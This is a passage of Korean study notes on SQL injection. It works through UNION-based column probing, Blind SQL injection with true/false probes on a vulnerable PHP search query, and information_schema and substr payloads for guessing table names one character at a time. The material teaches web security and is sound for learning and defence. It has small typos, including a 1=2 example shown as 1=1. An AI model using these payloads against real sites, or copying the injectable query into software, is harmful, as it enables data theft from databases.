                     * `union select 1,NULL,NULL,NULL from member`
                        - 에러가 없으면 첫번째 컬럼은 Int 형
                + 필드의 개수가 파악되면 ID, PW 를 받아올 수 있음
                    * `union select idx, name, password, ...`
    + Blind SQL Injection
        * 개요
            - 쿼리의 결과가 참인지 거짓인지의 반응으로 취약점 발견
            - Limit 연산, substr(문자열 자르기), ASCII(아스키 코드 반환) 등 함수를 이용
            - 정보를 수집하고 필드값이나 테이블 명을 추측하여 공격
        * 예시
            - 쿼리부분 예 (PHP)
                ```
                    $query = "select * from bbs
                    where $find like '%$search%"
                    order by idx desc";
                ```
                + 설명
                    * `$search` : 사용자가 입력한 검색어
                    * `$find` : 제목, 내용, 작성자, 내용+제목 등
                + 검색어에 `' and 1=1#` 입력 시
                    * `where $find like '%' and 1=1#%`
                        - `$find like '%'` : True
                        - `1=1` : True
                + 검색어에 `' and 1=2#` 입력 시
                    * `where $find like '%' and 1=1#%`
                        - `$find like '%'` : True
                        - `1=2` : False
                + True 와 False 에 대한 결과로 BlindSQL Injection 가능여부를 판단
            - 스키마
                + Information_schema : DB의 구조, 제약조건 등 메타 데이터를 제공
                + Information_schema.tables : 모든 테이블에 대한 정보
                + Information_shcema.columns : 모든 테이블의 컬럼정보
            - 함수
                + limit : 출력 레코드의 개수를 제한하는 함수 (ex:limit pos,len)
                + substr : 문자열을 추출하는 함수 (ex:substr(문자열, pos, len))
                    * pos : 시작위치 / len : 문자개수
                ```
                    select table_schema, table_name, table_type from information_schema.tables
                    where table_type = 'base table' -- 사용자가 만든 테이블
                    limit 0,1 ;
                ```
                    * 사용자가 만든 테이블을 처음부터 1개 가져오기
                ```
                    select substr((select table_name from information_shcema.tables where table_type = 'base table' limit 0, 1), 1, 1) from dual;
                ```
                    * 사용자가 만든 테이블명을 처음부터 1개 가져와서 앞자리 확인
                ```
                    select column_name from information_schema.columns
                    where table_name = 'employee' 
                    limit 0, 1;
                ```
                    * 테이블명이 'employee' 인 컬럼명을 처음부터 1개 가져오기
            - 활용법
                + 검색창에 입력
                    * `' and substr((select table_name from information_schema.tables where table_type='base table' limit 0,1),1,1)='a'#` 
                + 완성 쿼리 내용
                    ```
                        select * from bbs where subhect like '%
                        ' and substr((select table_name from information_schema.tables where table_type='base table' limit 0,1),1,1)='a'#%'
                    ```
                    * 검색 결과값이 나오면 참, 결과값이 없으면 거짓